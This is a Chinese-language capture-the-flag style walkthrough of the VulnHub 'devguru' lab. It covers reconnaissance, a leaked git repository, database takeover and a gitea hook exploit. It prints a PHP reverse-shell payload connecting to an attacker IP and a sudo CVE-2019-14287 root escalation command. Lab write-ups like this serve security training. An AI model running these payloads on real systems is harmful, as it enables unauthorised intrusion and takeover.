 ```yaml
---
title: 靶场实战：devguru
tags: 新建,模板,小书匠
category: /ctf study/日记/2025-05
renderNumberedHeading: true
slug:  storywriter/tutorial
emoji: 😀
color: 'var(--base0A)'
cover: '![](./img/use_cover.jpg)'
theme: xsj-fall
---
```




靶场实战：devguru

靶机地址[devguru](https://www.vulnhub.com/entry/devguru-1,620/)

#### 信息收集

常规扫描

`sudo nmap 192.168.1.0/24 -sn`靶机发现192.168.1.138

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278830305.png)

`sudo nmap $ip -p- --min-rate=10000`端口扫描22,80,8585

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278873458.png)

`sudo nmap $ip -p$ports -sT -sC -sV -O -oA devguru/detail`细节扫描，tcp协议扫描对应端口，-sC使用默认脚本，-SV扫描版本信息，-O确定操作系统，-oA格式化输出

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278893053.png)

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278903236.png)

80端口存在git泄露，8585端口运行了gitea

`sudo nmap -sU --top-ports 20 $ip -oA devguru/udp`扫描udp的常见端口，有时可以多指定一些端口

![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278926588.png)

目录扫描，有时一个工具没有收获可以多试试几个工具（如dirb，dirsearch，gobuster等）

80端口目录

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278960600.png)

8585端口的目录

![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278981133.png)

#### 开始渗透

80端口存在git泄露，使用githack工具下载下来

`sudo python GitHack.py http://192.168.1.138`

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279056940.png)

重点查看配置相关文件

config下的database.php发现数据库信息

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279073567.png)

访问80端口的adminer.php发现是数据库管理

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279098699.png)

使用刚刚获取的信息登录

优先关注users等信息，只找到一个backend_users的表，此时有两个思路，1修改原来管理员的密码，危险程度较高，容易被发现，2是新建一个用户，危险程度较低，这里选择新建用户
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279119471.png)

最后is_superuser要设置为1，在用户组将我们新建的用户归类到管理员组

同时根据数据库加上80端口扫描的目录backend,访问并登录

登录之后在cms -add - code输入反弹shell的指令

```
function onStart(){
//nc监听7777端口
    $s   =fsockopen("192.168.1.114",5555);
    $proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);
}
```

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279130337.png)

同时开启本地监听`nc -lvvp 5555`

访问/home1（新建网页名称）执行代码获取shell

成功拿到shell
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279147662.png)

#### 权限提升

##### 获取高交互shell

使用`python3 -c 'import pty;pty.spawn("/bin/bash")'`获得交互更好的shell（使用什么版本的python主要看环境有什么版本）

读取/etc/passwd文件发现只有root和frank用户有/bin/bash即允许ssh且有高交互shell

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279163760.png)

尝试读取shadow文件权限不允许，通常shadow文件都是只有root用户有权限的，但是也不一定，如果可以读取就可以利用该文件进行hash碰撞

使用python启动一个快速http服务共享文件`python -m http.server`

使用wget下载linpeas.sh和LinEnum.sh

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279178588.png)

提升权限并运行脚本

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279195376.png)

suid不存在提权，看看sudo，需要密码，无法获得

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279207508.png)

查看备份文件
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279217041.png)

##### 获取普通用户

发现新的服务器连接
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279262092.png)


同样查看user，因为我们已经获取了web的权限，因此这里我们想要获取frank用户的权限，所以这里的选择是更改frank的密码
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279271344.png)

原来的gitea的加密方式是pbkdf2且有salt，我们选择换一个加密方式，bcrypt，使用网站实现（我这里尝试了几种方式，只有bcrypt可行，有的博客使用了原加密方式，但没说清楚salt值的获取）[在线Bcrypt密码生成工具-Bejson.com](https://www.bejson.com/encrypt/bcrpyt_encode/#google_vignette)

`$2a$10$sV1DF9po/5T1BE2dsy2OueGZ/VuPrUrwDR6aA88Ygu2gv6GPeGtzO`

结合目录扫描的结构gitea在8585端口
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279287060.png)

左下角显示gitea的版本是1.12.5

该版本存在以下漏洞

setting -> git hook输入命令

然后编辑 readme.md 随便编辑即可执行
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279380648.png)

成功拿到
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279429126.png)

存在sqlite3无需密码使用
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279453993.png)
#### sqlite3配合sudo漏洞提权

发现特权命令/usr/bin/sqlite3使用网站查找[GTFOBins](https://gtfobins.github.io/)

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279463974.png)

复制，执行，发现

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279479812.png)
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279489723.png)

sudo的版本是1.8.21，存在一个[CVE-2019-14287：sudo权限绕过漏洞分析与复现 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/217089.html)的漏洞

这里可以使用该漏洞配合sqlite3提权

`sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'`
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279496031.png)